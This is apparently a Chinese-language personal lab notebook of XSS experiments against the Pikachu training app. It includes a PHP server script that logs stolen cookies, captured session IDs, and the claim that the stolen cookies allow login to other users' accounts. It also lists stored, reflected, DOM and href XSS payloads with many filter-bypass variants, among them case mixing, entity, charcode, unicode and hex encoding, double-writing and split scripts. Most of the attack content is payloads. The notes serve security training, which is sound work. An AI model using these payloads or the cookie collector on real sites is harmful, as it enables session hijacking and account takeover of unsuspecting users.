









# XSS实验

## 通过存储型XSS获取被攻击者的cookie

1. 首先，搞清楚原理，cookie在哪里？要发到那里？利用什么发？​​

2. 在web server 端构造如下payload

    ```bash
    payload1（不进行编码）：<script>document.write('');</script>

    payload2（base64编码）：<script>document.write('');</script>
    ```

3. payload提交后<span data-type="text" style="color: var(--b3-font-color9);">javascript脚本操纵DOM对象写入img标签</span>，并且标签的url中拼接了用户的cookie值，当浏览器渲染页面时就会<span data-type="text" style="color: var(--b3-font-color9);">GET形式</span>请求图片资源，并将<span data-type="text" style="color: var(--b3-font-color9);">cookie值</span>携带到攻击者服务器。

    ​​

4. 在攻击者服务器需要提供和payload路径对应的url给请求端访问，攻击者服务器获取GET中的cookie存储到文本文件中。

    ```top
    <?php //攻击端，用于接收被攻击端请求的信息
    $cookie = $_GET['cookie']; //获取cookie信息
    $log =  fopen('cookie.txt','a'); //生成获取的cookie信息，打开文件，a是追加写模式
    fwrite($log,$cookie.PHP_EOL); //fwrite写入
    fclose($log);
    ?>
    ```

5. 查看文本文件，两个payload所请求的cookie。​

    ​

    经过编码的cookie经过base64和URL解码如下

    ```bash
    name=ichunqiu; PHPSESSID=1iadqpfqbcrjqjfamfdmjchn2t; _ga_P1JF3QTQ79=GS1.1.1726128058.2.0.1726128058.0.0.0
    ```
6. 当其他用户访问该网页

    攻击者端生成如下cookie

    ​​
7. 编码的cookie经过base64和URL解码如下

    PHPSESSID=8mf3m5s9h457dlnqfjdmdi5st8
8. 利用该cookie可以通过工具实现不用账号密码登录他人账户。

## Pikachu的XSS实验

### 存储型

在页面输出cookie即操作DOM获取cookie并展示到页面。

payload：

```bash
 <script>document.write('<p>'+document.cookie+'</p>');<script>
```

注意：document.write中需要是输出字符和变量的拼接。

​​

```bash
</p><p>
```

​​

```bash
</p><p>
```

​​

```bash
</p><a href="https://nav3.cn/side?page=6&id=0&_=1726107142616">点我导航</a><p>
```

​​

### 反射型(GET)

直接输入`</p>`标签被闭合

​​

payload：

```bash
</p><script>document.write('<p>'+document.cookie+'</p>');</script>
```

​​

### 反射型(POST)

登录

​​

登录发现套路一样

payload：

```bash
</p><script>document.write('<p>'+document.cookie+'</p>');</script>
```

​​

### DOM型xss

输入111，发现被放到a的href里

​​

```bash
#' onclick="alert(document.cookie)">   闭合href标签，并且在中添加a有的点击事件。
```

​​

### DOM型xss-x

输入内容，发现拼接在URL

​​

在a的href里拼接，使其闭合。

​​

使用’闭合href，加入onclick事件获取cookie

```bash
' onclick="alert(document.cookie)"'
```

​​

### xss之href输出

​​

```bash
W3School中对<a>标签的href属性有以下描述（引用摘自HTML <a> 标签的 href 属性）：

<a> 标签的 href 属性用于指定超链接目标的 URL。

href 属性的值可以是任何有效文档的相对或绝对 URL，包括<span data-type="text" style="color: var(--b3-font-color9);">片段标识符</span>和 <span data-type="text" style="color: var(--b3-font-color9);">JavaScript 代码段</span>。如果用户选择了 <a> 标签中的内容，那么浏览器会尝试检索并显示 href 属性指定的 URL 所表示的文档，或者执行<span data-type="text" style="color: var(--b3-font-color9);"> JavaScript 表达式</span>、<span data-type="text" style="color: var(--b3-font-color9);">方法和函数的列表</span>。
```

payload：

```bash
javascript:alert(document.cookie)
```

​​

## XSS与标签

### 伪协议

#### data:

payload：

```bash
<iframe src\="data:text/html,<script>alert('XSS');</script>" " ><iframe>
```

#### javascript:

payload：

```bash
javascript:alert(document.cookie)  (可用在href里)
```

## XSS变形

实验环境pikachu XSS

1. 大小写

    ```bash
    <SCRipt>alert(1)</scRiPt>
    ```
2. 引号‘“
3. 空格过滤/绕过
4. 回车绕过

    ```javascript
    <a href="j
    a
    v
    ascript:alert('XSS')">回车可用</a>
    ```

    事件无法使用
5. 编码绕过

    java==>html 16进制`&#x006a;&#x0061;&#x0076;&#x0061;`​

    script==>html 10进制 `&#115;&#99;&#114;&#105;&#112;&#116;`​

    ```javascript
    <a href="&#x006a;&#x0061;&#x0076;&#x0061;&#115;&#99;&#114;&#105;&#112;&#116;:alert('编码可用')">编码可用</a>
    ```

6. 拆分跨站  仅存储型

    ```javascript
    //原始payload：
    <script>
        a="alert";
        a=a+"('使用变量和函数调用alert')";
        eval(a);
    </script>

    //拆分后payload：
    <script>a="alert";</script>
    <script>a=a+"('使用变量和函数调用alert')";</script>
    <script>eval(a);</script>
    ```

7. 双写 leve7

    payload：

    ```bash
    "><a hrhrefef="javascrscriptipt:alert('XSS')">111</a>
    ```

    当字符被过滤可尝试双写绕过
8. 10进制编码

    ```javascript
    <script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
    //使用CharCode调用alert,也可以用eval执行
    //97,108,101,114,116,40,39,88,83,83,39,41解码后为alert('XSS')
    ```

9. Unicode编码

    ```javascript
    <script>eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0058\u0053\u0053\u0027\u0029\u003b')</script>
    //使用Unicode编码调用alert,也可以用eval执行


    ```

10. 16进制编码

     ```javascript
     <script>eval("\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29")</script>
     ```

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍
